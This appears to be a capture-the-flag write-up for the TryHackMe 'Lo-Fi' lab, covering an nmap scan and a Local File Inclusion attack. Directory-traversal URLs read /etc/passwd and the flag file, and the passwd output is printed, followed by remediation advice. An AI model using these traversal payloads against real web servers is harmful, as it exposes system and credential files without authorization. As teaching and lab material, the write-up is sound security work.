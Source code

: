 # Lo-Fi CTF Challenge

## Executive Summary

This report details the penetration testing of the "Lo-Fi" machine on TryHackMe, classified as an Easy difficulty challenge. The objective was to identify vulnerabilities and capture the flag through systematic reconnaissance, enumeration, and exploitation. The primary vulnerability exploited was a Local File Inclusion (LFI) in the web application, allowing unauthorized access to sensitive files including the flag.

**Key Findings:**
- Open ports: 22 (SSH) and 80 (HTTP)
- Web application vulnerable to LFI via the `page` parameter
- Flag captured: `flag{******************}`

## Methodology

The assessment followed a structured offensive security methodology:
1. **Reconnaissance**: Network scanning to identify open ports and services.
2. **Enumeration**: Detailed analysis of web application structure and potential vulnerabilities.
3. **Exploitation**: Leveraging identified vulnerabilities to access restricted files.
4. **Post-Exploitation**: Flag capture and documentation.

## Reconnaissance

### NMAP Scan

Initial reconnaissance was performed using NMAP to identify open ports and running services.

**Command Executed:**
```bash
nmap -sC -sV 10.201.95.0 -oN nmap_report
```

**Results:**
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-01 18:29 WIB
Nmap scan report for 10.201.95.0
Host is up (0.34s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ba:ad:98:17:00:6a:ab:c4:9b:28:c8:b1:dd:bb:52:41 (RSA)
|_  256 c2:59:8b:a9:f3:85:ff:32:e5:1f:78:b1:0b:94:55:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Lo-Fi Music
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.12 seconds
```

**Analysis:**
- Port 22: OpenSSH 8.2p1 running on Ubuntu Linux
- Port 80: Apache HTTP Server 2.2.22 with title "Lo-Fi Music"
- Operating System: Ubuntu Linux
- Total scan time: 129.12 seconds

## Enumeration

### Web Application Analysis

The web application was accessed via HTTP on port 80. Initial inspection revealed a simple lo-fi music themed site.

**Step 1: View Page Source**
To understand the application structure, the HTML source was examined.

**Command/Action:**
- Open browser and navigate to `http://10.201.95.0/`
- View page source (Ctrl+U or right-click > View Page Source)

**Key Findings:**
```html
<li><a href="/?page=relax.php">Relax</a></li>
<li><a href="/?page=sleep.php">Sleep</a></li>
<li><a href="/?page=chill.php">Chill</a></li>
<li><a href="/?page=coffee.php">Coffee</a></li>
<li><a href="/?page=vibe.php">Vibe</a></li>
<li><a href="/?page=game.php">Game</a></li>
```

The application uses a `page` parameter to include different PHP files, indicating potential for Local File Inclusion (LFI) vulnerabilities.

**Step 2: Test for LFI Vulnerability**
Attempted to access sensitive system files using directory traversal.

**Test 1: Access /etc/passwd**
URL: `http://10.201.95.0/?page=../../../../etc/passwd`

**Result:**
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

**Analysis:** Successful LFI exploitation confirmed. The application includes files without proper sanitization.

## Exploitation

### Flag Capture

With LFI confirmed, attempted to access the flag file.

**URL:** `http://10.201.95.0/?page=../../../../flag.txt`

**Result:**
```
flag{*************************}
```

**Analysis:** Flag successfully captured using directory traversal in the LFI vulnerability.

## Conclusion

The Lo-Fi CTF challenge was successfully completed by exploiting a Local File Inclusion vulnerability in the web application. The vulnerability allowed unauthorized access to system files and the flag. This highlights the importance of proper input validation and sanitization in web applications to prevent such attacks.

**Recommendations:**
- Implement proper input validation for file inclusion parameters
- Use whitelisting for allowed file paths
- Regularly update web server software (Apache 2.2.22 is outdated)
- Consider using frameworks with built-in security features

## Tools Used

- NMAP: Network scanning and service enumeration
- Web Browser: Manual enumeration and exploitation
- Text Editor: Documentation

## Lessons Learned

- Always test for common web vulnerabilities like LFI when encountering dynamic file inclusion
- Directory traversal techniques are effective against poorly sanitized inputs
- Thorough enumeration is crucial for identifying exploitation vectors
- Documentation of steps aids in reproducibility and learning
